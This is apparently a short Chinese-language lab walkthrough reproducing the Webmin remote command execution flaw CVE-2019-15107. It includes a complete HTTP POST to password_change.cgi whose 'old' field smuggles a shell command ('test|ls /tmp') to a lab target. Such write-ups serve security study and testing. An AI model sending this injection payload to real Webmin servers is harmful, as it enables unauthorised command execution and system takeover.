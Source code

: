 #  Webmin远程命令执行漏洞（CVE-2019-15107）by [hu4wufu](https://github.com/hu4wufu)

## 概述

Webmin 被爆出1.920版本之前存在一个远程命令执行漏洞（CVE-2019-15107），当用户开 Webmin 密码重置功能后，攻击者利用该漏洞可在易受损系统中执行任意命令，进而获取系统 Shell。由于Webmin 中 Password_Change.cgi 在接收请求的处理过程中，old 参数存在命令注入漏洞，可被攻击者恶意利用。

## 影响版本

Webmin 1.920及以下版本。

## 漏洞复现

1、打开靶场，开启Webmin的漏洞环境。

![image-20200821155246605](./1.png)

2、抓取数据包，修改数据，利用poc进行验证，发现有回显。

![image-20200821155231196](./2.png)

```
POST /password_change.cgi HTTP/1.1
Host: 118.193.36.37:9211
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: https://118.193.36.37:9211
Connection: close
Referer: https://118.193.36.37:9211/
Cookie: redirect=1; testing=1
Upgrade-Insecure-Requests: 1

user=rootxx&pam=&expired=2&old=test|ls /tmp&new1=test2&new2=test2

```

3、直接查看FLag

![image-20200821155159221](./3.png)

